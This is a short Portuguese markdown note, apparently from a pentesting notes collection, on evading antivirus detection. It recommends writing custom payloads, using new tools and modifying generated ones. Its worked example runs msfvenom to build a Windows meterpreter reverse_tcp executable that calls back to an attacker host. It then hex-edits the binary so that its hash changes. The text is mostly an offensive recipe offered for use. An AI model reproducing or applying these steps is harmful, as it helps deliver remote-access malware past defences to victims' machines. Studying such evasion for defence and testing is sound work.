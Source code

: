# Bypass de antivirus

1. **Escrever seus próprios código.** Isso torna seu payload único, tornando-o mais difícil de ser detectado.
2. **Usar ferramentas novas.** Ferramentas ainda não conhecidas pelos antivirus tem maoir probabilidade de gerar código com baixa detecção.
3. **Modificar o payload gerado.** Uma vez modificado, diminiu ligeramente a possibilidade de ser detectado. exemplo:
  * Gere o payload:
```
  $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe`

  $ md5sum shell.exe                       
  fa90bda8a378fa59246eee7f2f35337a  shell.exe
```
  * Edite o arquivo, alterando partes modificáveis como textos.<br>
```
$ hexeditor shell.exe
```
![Hexeditor]()
```
$ md5sum shell.exe          
aeaae1490afd16ed1e9ae60a1e6c95ca  shell.exe
  
